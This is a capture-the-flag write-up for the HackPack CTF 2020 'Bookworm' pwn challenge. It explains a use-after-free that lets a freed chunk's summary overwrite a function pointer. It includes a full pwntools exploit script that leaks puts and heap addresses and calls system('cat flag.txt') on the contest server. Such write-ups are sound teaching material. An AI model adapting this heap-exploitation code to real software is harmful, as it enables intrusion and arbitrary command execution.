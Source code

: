 <h1>Bookworm</h1>
<h2>HackPack CTF 2020 PWN</h2>

<h3>Problem:</h3>
Bookworm: a book collection service.

<h3>Solution:</h3>
After looking at the binary through Ghidra, we can see that there is a use after free vulnerability both with the read_summary and write_summary functions since the delete_book function never actually nulls the pointer.  Looking at how the heap is allocated and freed can help us understand how to exploit this vulnerability.

![Image of Main](https://github.com/h3lpful/ctf_writeups/blob/master/bookworm/images/vis01.PNG)

Notice that when a book is made, the address of the read_summary function is on the block just below the summary and a pointer to the summary's address is also below it.  Once this chunk is freed:

![Image of Main](https://github.com/h3lpful/ctf_writeups/blob/master/bookworm/images/vis02.PNG)

The tcachebins have the area where the function address initially was delegated for the next heap allocation.  So when we allocate another book:

![Image of Main](https://github.com/h3lpful/ctf_writeups/blob/master/bookworm/images/vis03.PNG)

The summary is now located where book 0s function call and ptr were.  This gives us as many arbitrary function calls, with a single arg, as we want.  One thing to note is that the summary can be changed, and therefore has to be smaller than 23 bytes and the title has to be over 23 bytes so that the summary of book 1 will be where the function calls of book 0 were.

Since there is no PIE we could call whatever functions are available, but I see nothing that we can use to get the flag.  This means we will need to access libc in order to call system.  One function available for us is puts, which we can feed a location on the plt to get a libc address which we can then use to calculate the libc address of system, I used puts itself.  

With this method we need one more leak, since system takes a pointer, and we can target the locations of our first book titled "cat flag.txt".  Using Ghidra to find the location of the variable bookcase, we can get a leak of the heap location the first element of the bookcase variable is pointing too, and calculate the offset to our "cat flag.txt".

Once that is done the only thing left is to build the payload.  Below is the exploit code I used:

```Python3
from pwn import *

target = './bookworm'

#context.log_level = 'error'
context.update(terminal = ['tmux','splitw'])

#==========================================================
#           FUNCTIONS
#==========================================================

def insert_book(s1,name,s2,summary):
    p.recvuntil('>>')
    p.sendline('1')
    p.recvuntil('size:')
    p.sendline(s1)
    p.recvuntil('name:')
    p.sendline(name)
    p.recvuntil('size:')
    p.sendline(s2)
    p.recvuntil('summary:')
    p.sendline(summary)

def delete_book(bookid):
    p.recvuntil('>>')
    p.sendline('2')
    p.sendline(bookid)

def write_sum(bookid,s1,summary):
    p.recvuntil('>>')
    p.sendline('3')
    p.sendline(bookid)
    p.sendline(s1)
    p.sendline(summary)

def call_fun(bookid):
    p.recvuntil('>>')
    p.sendline('4')
    p.sendline(bookid)

#==========================================================
#           CODE
#==========================================================

#p = process(target, env={"LD_PRELOAD":"./home/helpful/git/ctf_writeups/bookworm/libc.so.6"})
p = remote('cha.hackpack.club',41720)

#gdb.attach(p)

pl1 = p64(0x400700)      #puts call (thunk)
pl1 += p64(0x41414141)   #padding
pl1 += p64(0x602020)     #puts @got.plt

insert_book('23','cat flag.txt','23','CCCCCCCCDDDDDDDD')    # first book will also hold our cat flag.txt command for our system call
delete_book('0')                                            # free the book
insert_book('24','AAAABBBB', '23', 'GGGGGGGGHHHHHHHH')      # make new book and ensure the summary is shorter than 24 and the name is longer.  this causes the summary to be written where book 0s function calls were

write_sum('1','24',pl1)                                     # makes book 0s call a puts to the puts location on the plt
call_fun('0')

puts_leak = p.recvline()                                    # saves the leaked libc address for puts
puts_leak = puts_leak.split(b': ')[1].rstrip(b'\n')
sys_addr = int.from_bytes(puts_leak, byteorder='little')
sys_addr = sys_addr - 202112                                # calculates system address based on the difference between system and puts in the libc.so.6 binary


pl2 = p64(0x400700)                                         # second payload to leak the heap address of the first book name "cat flag.txt" 
pl2 += p64(0x42424242)
pl2 += p64(0x6020c0)

write_sum('1','24', pl2)
call_fun('0')

ptr_leak = p.recvline()
ptr_leak = ptr_leak.split(b': ')[1].rstrip(b'\n')
ptr_leak = int.from_bytes(ptr_leak, byteorder='little')


pl3 = p64(sys_addr)                                         # third payload uses both leaked addresses to call system with a ptr to the heap address of "cat flag.txt"
pl3 += p64(0x43434343)
pl3 += p64(ptr_leak - 0x40) 
        
write_sum('1','24',pl3)
call_fun('0')

print(p.recvline().split(b': ')[1].rstrip(b'\n'))

p.close()

```

flag{N0th1ng_1$_3v3r_Fr33}
